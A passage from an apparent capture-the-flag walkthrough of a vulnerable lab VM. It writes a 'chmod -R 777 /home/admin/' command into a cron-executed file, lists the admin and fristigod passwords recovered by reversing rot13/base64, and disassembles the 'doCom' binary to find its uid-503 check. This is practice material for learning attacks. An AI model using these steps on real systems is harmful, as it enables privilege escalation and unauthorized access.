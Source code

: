 Just some more notes:  
* use cronjob to inspect `/home/admin`
  * `echo -n "chmod -R 777 /home/admin/" > /tmp/runthis`
* reverse the rot13/base64 and get passwords:
```
admin:thisisalsopw123
fristigod:LetThereBeFristi!
```

### Reversing

We can copy it to `/uploads` to download it and reverse it locally.  
Also `objdump` is available on the box:
```bash
$ objump -d -M intel doCom | grep -A20 main.:
0000000000400674 <main>:
  400674:       55                      push   rbp
  400675:       48 89 e5                mov    rbp,rsp
  400678:       48 81 ec 90 00 00 00    sub    rsp,0x90
  40067f:       89 bd 7c ff ff ff       mov    DWORD PTR [rbp-0x84],edi
  400685:       48 89 b5 70 ff ff ff    mov    QWORD PTR [rbp-0x90],rsi
  40068c:       48 c7 45 80 00 00 00    mov    QWORD PTR [rbp-0x80],0x0
  400693:       00 
  400694:       48 8d 55 88             lea    rdx,[rbp-0x78]
  400698:       b8 00 00 00 00          mov    eax,0x0
  40069d:       b9 0b 00 00 00          mov    ecx,0xb
  4006a2:       48 89 d7                mov    rdi,rdx
  4006a5:       f3 48 ab                rep stos QWORD PTR es:[rdi],rax
  4006a8:       48 89 fa                mov    rdx,rdi
  4006ab:       89 02                   mov    DWORD PTR [rdx],eax
  4006ad:       48 83 c2 04             add    rdx,0x4
  4006b1:       b8 00 00 00 00          mov    eax,0x0
  4006b6:       e8 ad fe ff ff          call   400568 <getuid@plt>
  4006bb:       89 45 fc                mov    DWORD PTR [rbp-0x4],eax
  4006be:       81 7d fc f7 01 00 00    cmp    DWORD PTR [rbp-0x4],0x1f7
  4006c5:       74 2e                   je     4006f5 <main+0x81>
```
At offset `0x4006be` the return value of `getuid` gets compared to 0x1f7 = 503.  
This is the id of user `fristi`. If the compare fails the program exits:
```bash
# bash: arithmetic expansion
$ cat /etc/passwd | grep $(( 16#1f7 ))              
fristi:x:503:100::/var/www:/sbin/nologin
$ objdump -d -M intel doCom | grep -A30 main.: | tail --lines=+20
4006be:       81 7d fc f7 01 00 00    cmp    DWORD PTR [rbp-0x4],0x1f7
  4006c5:       74 2e                   je     4006f5 <main+0x81>
  4006c7:       48 8b 05 fa 04 20 00    mov    rax,QWORD PTR [rip+0x2004fa]        # 600bc8 <stderr@@GLIBC_2.2.5>
  4006ce:       48 89 c2                mov    rdx,rax
  4006d1:       b8 b8 08 40 00          mov    eax,0x4008b8
  4006d6:       48 89 d1                mov    rcx,rdx
  4006d9:       ba 1c 00 00 00          mov    edx,0x1c
  4006de:       be 01 00 00 00          mov    esi,0x1
  4006e3:       48 89 c7                mov    rdi,rax
  4006e6:       e8 8d fe ff ff          call   400578 <fwrite@plt>
  4006eb:       bf 01 00 00 00          mov    edi,0x1
  4006f0:       e8 23 fe ff ff          call   400518 <exit@plt>
```
